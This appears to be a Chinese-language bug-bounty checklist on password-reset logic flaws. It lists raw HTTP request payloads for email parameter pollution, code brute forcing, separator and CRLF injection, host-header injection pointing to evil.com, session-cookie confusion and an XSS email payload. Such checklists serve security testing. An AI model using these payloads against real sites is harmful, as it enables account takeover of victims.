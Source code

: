 ## 密码找回


### 绕过前端验证

#### 不知道密码
1. 修改响应状态码
```java
响应

...
code: true /success /1
```
2. 抓包后删除（`username=***&pwaasd=***`）
3. 有些系统设定密码是纯数字进入口令修改界面（111111或者222222）

#### 知道密码
1. 响应包是否回显验证码
2. 重置跳转时，是否有id类的参数进行任意用户密码修改

### 邮箱/手机验证码找回
1. 参数污染

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. 验证码爆破

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```


3. 在参数值中使用分隔符

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

4. 响应包中有指定接收端，可修改接收端号码

5. 参数值中没有domain

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. 没有参数的值

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. 邮件抄送

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. 如果body请求中有JSON数据，则添加逗号

```java
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. 邮箱密码重置链接是否可被构造

### 请求体字段

1. Find out how the tokens generate 了解令牌如何生成

- Generated based on TimeStamp 基于时间戳生成
- Generated based on the ID of the user 根据用户ID生成
- Generated based on the email of the user 根据用户的电子邮件生成
- Generated based on the name of the user 根据用户名生成

2. 主机标头注入

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```

to

```java
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```
受害者将收到重置链接evil.com

3. cookie混淆
```java
大致攻击思路:
1. 用攻击者账号13908080808进入密码找回流程，查收重置验证码、通过校验
2. 输入新密码后提交，拦截中断该请求，暂不发至服务端，这时，PHPSESSID 关联的是13908080808账号;
3. 接着，关闭浏览器的burp代理，新开重置流程的首页，在页面中输入普通账号13908090133后获取短信验证码，这时，PHPSESSID 已关联成13908090133了;
4. 最后，放行之前中断的请求，放至服务端，逻辑上，可以成功重置13908090133的密码。
```

### 补充
尝试跨站点脚本（XSS）的形式

```java
"<svg/onload=alert(1)>"@gmail.com
```


### 参考
- [github](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Checklist/Forgot%20Password.md)
- [10 Password Reset Flaws](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
- [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)

## 支付
![3.支付安全漏洞](../../../网络安全/3.逻辑漏洞/3.支付安全漏洞.md)
## 登录框
